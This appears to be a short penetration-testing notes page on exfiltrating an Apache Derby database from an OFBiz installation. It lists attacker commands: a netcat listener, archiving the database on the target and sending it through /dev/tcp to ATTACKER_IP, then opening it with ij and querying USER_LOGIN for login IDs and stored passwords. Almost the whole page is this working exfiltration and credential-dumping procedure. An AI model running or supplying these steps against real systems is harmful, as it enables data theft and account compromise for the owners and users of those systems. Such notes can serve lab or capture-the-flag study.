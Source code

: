 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

## Attacker

 - sudo apt install derby-tools (Install the tool needed to interact with the database)

 - nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

## Target Machine

 - cd /opt/ofbiz/runtime/data/derby

 - tar cvf ofbiz.tar ofbiz

 - cat ofbiz.tar > /dev/tcp/ATTACKER_IP/4444 (Compress the entire database with tar, then write all data to our listener)

## Once downloaded, we extract the archive and use ij to inspect the database on our attacking machine

 - tar xvf ofbiz.tar

 - ij

## Now, on the ij terminal, we try to connect to the database by typing the commands:

 - ij> connect 'jdbc:derby:./ofbiz';

## Use regular SQL statements to extract data from the database

 - SHOW TABLES;

 - SELECT * FROM OFBIZ.USER_LOGIN;

 - SELECT USER_LOGIN_ID,CURRENT_PASSWORD FROM OFBIZ.USER_LOGIN;
